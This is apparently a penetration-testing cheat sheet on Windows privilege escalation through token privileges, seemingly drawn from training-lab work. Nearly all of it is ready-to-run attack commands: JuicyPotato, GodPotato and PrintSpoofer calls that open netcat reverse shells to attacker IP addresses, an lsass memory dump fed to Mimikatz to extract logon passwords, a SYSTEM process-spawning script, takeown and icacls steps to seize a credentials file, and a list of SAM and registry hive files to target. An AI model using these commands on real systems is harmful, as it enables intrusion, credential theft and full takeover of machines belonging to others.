

If we have the privilege assigned but not enabled
https://www.leeholmes.com/adjusting-token-privileges-in-powershell/
https://www.powershellgallery.com/packages/PoshPrivilege/0.3.0.0/Content/Scripts%5CEnable-Privilege.ps1
[https://github.com/fashionproof/EnableAllTokenPrivs/blob/master/EnableAllTokenPrivs.ps1](https://github.com/fashionproof/EnableAllTokenPrivs/blob/master/EnableAllTokenPrivs.ps1)
```
Import-Module .\EnableAllTokenPrivs.ps1
.\EnableAllTokenPrivs.ps1
whoami /priv
```
SeImpersonate and SeAssignPrimaryToken
---
Potato attack
[https://github.com/ohpe/juicy-potato/releases/tag/v0.1](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)
[https://github.com/int0x33/nc.exe/](https://github.com/int0x33/nc.exe/)
```
JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```
```
.\GodPotato-NET4.exe -cmd "C:\Users\Nathan\Nexus\nexus-3.21.0-05\nc64.exe 192.168.45.206 445 -e cmd.exe"
```
For PrintSpoofer
[https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)
```
PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```

SeDebugPrivilege
---
Dump process memories for passwords
[https://github.com/microsoft/ProcDump-for-Linux/releases/tag/3.5.0](https://github.com/microsoft/ProcDump-for-Linux/releases/tag/3.5.0)
```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
Load into Mimikatz
```
log
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```



- For when we cant use ProcDump, or if we have GUI access

RCE
[https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1)
[https://github.com/decoder-it/psgetsystem](https://github.com/decoder-it/psgetsystem) - updated
```
[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")
```
Open an elevated shell and type 'tasklist' to view running processes running as SYSTEM (winlogon.exe)

SeTakeOwnershipPrivilege
---
```
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```
Confirm we have ownership 
```
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
```
If we still cannot read the file then we need to modify the ACL
```
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```

Files to use this privilege on:
- c:\inetpub\wwwwroot\web.config
- %WINDIR%\repair\sam
- %WINDIR%\repair\system
- %WINDIR%\repair\software, %WINDIR%\repair\security
- %WINDIR%\system32\config\SecEvent.Evt
- %WINDIR%\system32\config\default.sav
- %WINDIR%\system32\config\security.sav
- %WINDIR%\system32\config\software.sav
- %WINDIR%\system32\config\system.sav
